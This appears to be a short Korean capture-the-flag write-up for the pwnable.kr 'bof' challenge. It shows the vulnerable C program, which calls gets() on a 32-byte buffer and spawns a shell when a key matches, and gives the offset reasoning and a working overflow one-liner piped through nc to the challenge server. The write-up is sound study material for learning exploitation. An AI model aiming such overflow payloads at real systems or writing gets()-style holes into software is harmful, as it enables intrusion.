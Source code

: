 ```yaml
---
sort: 3
---
```


# bof

home 디렉토리에 col.c파일을 확인하면 소스코드를 볼 수 있다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

<img src="/picture/hacker_school/pwnable.kr/bof.png" width="1000"/>

overflowme의 주소는 ebp-0x2c이고, func의 첫번째 인자인 key의 위치는 ebp+0x8이기 때문에 아래와 같이 해주면 된다.

```bash
$ (python -c "print('A'*0x34+'\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000
cat flag
```

```tip
## 알게 된 점

bof
```